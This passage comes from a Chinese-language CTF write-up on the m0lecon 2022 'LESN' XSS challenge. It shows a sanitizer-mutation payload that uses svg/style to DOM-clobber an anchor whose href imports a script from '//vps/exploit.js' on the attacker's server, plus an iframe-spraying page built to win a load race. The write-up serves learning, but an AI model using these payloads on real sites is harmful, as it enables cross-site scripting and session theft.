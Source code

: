 就只是一個 style 有著內容，沒什麼，但是用 `document.body.innerHTML` 還原回去時會變成這樣：

``` html
<svg><style></style></svg><a id=redirect_error_image href=http:pew>g</style></svg>
```

就產生出了這個 `<a>` 的 tag，讓我們可以 DOM clobbering。而內容其實放個 `http:import(script)` 就好，`http:` 會被當作是 label，後面的程式碼會直接被執行。

接著就是要怎麼讓 onerror 發生的比腳本載入快，根據作者的 [writeup](https://github.com/xatophi/m0leconteaser2022-LESN/blob/main/writeup.md)，在圖片網址的部分可以放上 `http://localhost` 之類的網址，讓它趕快失敗，放 `http://not_exist` 感覺也行。

然後可以用 iframe 去載入你的 post，再把自訂頁面丟給 bot，就可以避免使用到 cached 的 `script.js`。

我那時是想說瀏覽器載入資源都有 priority，如果可以製造出一個 priority 比 script.js 還高的組合，就能延緩腳本的載入之類的，所以試著在頁面中加入一堆圖片：

``` html
<svg><style><&sol;style><&sol;svg>&lt;a id=redirect_error_image href=mailto:import('//vps/exploit.js')>
&lt;img src=https://deelay.me/20000/https://example.com>
&lt;img src=https://deelay.me/20001/https://example.com>
&lt;img src=https://deelay.me/20002/https://example.com>
&lt;img src=https://deelay.me/20003/https://example.com>
```

不過好像沒什麼用就是了，圖片順序應該也不會比 script 還高。當時也沒有繼續研究有哪些可以做到我理想中的狀況。

最後是想到之前 @lbrnli1234 在解我出的一題 XSS 時也碰到 race condition，它後來就塞了一堆 iframe 來增加成功機率，可見：[Notes XSS Challenge Author Writeup](https://blog.huli.tw/2022/04/13/en/notes-challenge-author-writeup/)

我也照著做，塞了一堆 iframe：

``` html
<!DOCTYPE html>
<html>
<head>
</head>
<body>

  <iframe src="https://lesn.m0lecon.fans/post/db4196ed-5b38-41eb-b6c4-d8f8ced9fe38"></iframe>
  <iframe src="https://lesn.m0lecon.fans/post/db4196ed-5b38-41eb-b6c4-d8f8ced9fe38"></iframe>
  <iframe src="https://lesn.m0lecon.fans/post/db4196ed-5b38-41eb-b6c4-d8f8ced9fe38"></iframe>
  <iframe src="https://lesn.m0lecon.fans/post/db4196ed-5b38-41eb-b6c4-d8f8ced9fe38"></iframe>
  <iframe src="https://lesn.m0lecon.fans/post/db4196ed-5b38-41eb-b6c4-d8f8ced9fe38"></iframe>
  <iframe src="https://lesn.m0lecon.fans/post/db4196ed-5b38-41eb-b6c4-d8f8ced9fe38"></iframe>
  <iframe src="https://lesn.m0lecon.fans/post/db4196ed-5b38-41eb-b6c4-d8f8ced9fe38"></iframe>
  <iframe src="https://lesn.m0lecon.fans/post/db4196ed-5b38-41eb-b6c4-d8f8ced9fe38"></iframe>
  <iframe src="https://lesn.m0lecon.fans/post/db4196ed-5b38-41eb-b6c4-d8f8ced9fe38"></iframe>
  <iframe src="https://lesn.m0lecon.fans/post/db4196ed-5b38-41eb-b6c4-d8f8ced9fe38"></iframe>
</body>

</html>
```

最後就解掉了，first blood。

## ptMD
